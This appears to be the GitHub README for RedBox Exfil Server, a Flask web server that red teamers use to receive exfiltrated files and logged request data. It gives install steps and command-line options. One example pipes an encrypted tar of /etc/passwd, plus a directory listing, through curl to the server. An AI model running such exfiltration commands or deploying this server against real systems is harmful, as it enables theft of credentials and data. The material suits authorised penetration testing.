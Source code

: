 # RedBox Exfil Server
RedBox Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [[File Upload]]
- [[Dynamic Request Parameter Logging]]
- [[Automatic Archive Extraction]]
- [[Automatic Decryption]]
- [[Automatic Decoding]]

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python redbox-server.py -h
```

### Options
```bash
python redbox-server.py -h

usage: redbox-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG]
                        [--dump-config] [--debug]
                        [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                        [-A | --auto-process | --no-auto-process]
                        [--auto-extract-tar]
                        [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

A Webserver for File Exfiltration and C2.

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default:
                        False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more
                        than once to define multiple process_list functions.
                        Use this flag in the order in which you wish to
                        process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data.
                        This option is enabled by default, but should be
                        disabled (--no-auto-process) when you receive output
                        you don't expect. Such as in the case of Base64
                        decoding being run on output that is not Base64
                        encoded. Instead, force the process with the `-p`
                        flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server.
                        (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default:
                        EncryptMe)

Far more configuration options exist which must be specified in Environment
Variables, use `--dump_config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar -cz /etc/passwd \
| openssl enc -a -e -aes-256-cbc -pbkdf2 -pass 'pass:EncryptMe' \
| curl 127.0.0.1$PWD -F "dir_listing=`ls -al | openssl enc -a -e -aes-256-cbc -pbkdf2 -pass 'pass:EncryptMe'`" -F "upload=@-" 

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality